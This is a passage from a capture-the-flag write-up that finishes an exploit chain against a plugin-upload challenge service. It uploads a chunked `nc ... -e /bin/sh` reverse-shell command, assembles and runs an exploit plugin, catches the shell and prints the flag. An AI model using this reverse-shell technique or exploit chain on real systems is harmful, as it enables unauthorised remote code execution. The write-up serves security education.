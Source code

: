 ### Upload additional constants

In order to make the exploit work, we need a few more constants.
These have to be uploaded after the plugins to make sure the plugins can be saved to disk successfully before any entries with invalid filenames are created (e.g. saving the file `plugins/expl` won't work because there is no directory `storage/plugins` but we cannot traverse the path because then the logfile method won't find it since this is operating from the working directory).

Store the filename which is used as "logfile" at index `ord("a")`

```
upload_file("plugins/expl")
```

Store the `nc` command at index `ord("b")`

```
commmand = f"nc {ip} {rev_port} -e /bin/sh".ljust(chunk_size * 3, " ")
upload_file(commmand[:chunk_size])
upload_file(commmand[chunk_size : 2 * chunk_size])
upload_file(commmand[2 * chunk_size :])
```


### Run plugins to assemble exploit chunks

```
for i in range(num_chunks):
    run_plugin(str(i))
```

### Run the exploit plugin

Now, we can listen for the reverse shell:

```
reverse_shell = listen(rev_port)
```

Run exploit code and spawn the reverse shell:

```
run_plugin("expl")
```

And finally get the flag
```
reverse_shell.sendline(b"echo $flag")
flag = reverse_shell.readline()
```

which rewards us with a reference I'm very [drawn to](https://youtube.com/watch?v=hfM4xPyie78).

```
flag{D1d_y0u_0rd3r_rc3?v=hfM4xPyie78}
```
